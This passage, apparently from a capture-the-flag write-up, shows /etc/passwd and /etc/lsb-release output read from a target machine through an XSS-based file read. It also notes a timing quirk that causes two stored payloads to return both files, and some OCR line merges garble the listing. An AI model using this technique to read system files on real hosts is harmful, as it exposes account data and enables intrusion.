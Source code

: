     uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL   Server,,,:/nonexistent:/bin/false



#### Issues

If I don't wait a minute before sending the next query, both XSS entries
will still be there, and therefore the request will return both files:



    book> /etc/lsb-release
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
    data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
    Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin      systemd-
    network:x:100:102:systemd       Network
    Management,,,:/run/systemd/netif:/usr/sbin/nologin      systemd-
    resolve:x:101:103:systemd
    Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL   Server,,,:/nonexistent:/bin/false
    DISTRIB_ID=Ubuntu       DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic DISTRIB_DESCRIPTION="Ubuntu
    18.04.2 LTS"
    book> 
